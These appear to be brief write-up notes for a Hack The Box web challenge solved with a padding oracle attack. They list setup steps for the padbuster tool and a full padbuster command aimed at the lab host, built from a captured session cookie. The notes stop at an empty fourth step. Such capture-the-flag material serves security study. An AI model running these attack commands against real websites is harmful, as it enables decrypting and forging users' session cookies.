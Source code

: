 Padding Oracle Attack

install padbuster and perl
config as this
perl -MCPAN -eshell
install Bundle::LWP

1.register
2.Look at cookie
3.padbuster http://docker.hackthebox.eu:48405/profile.php 2MkZ0Q5Vv8KvWOfvl30GYajrRLR1DE4KNn%2FoCWsp6a7s7WugVm
dwZA%3D%3D 8 --cookie "iknowmag1k=2MkZ0Q5Vv8KvWOfvl30GYajrRLR1DE4KNn%2FoCWsp6a7s7WugVmdwZA%3D%3D;PHPSESSID=poj9ke7vlac04
jjuk3ug4rmk92"
4.
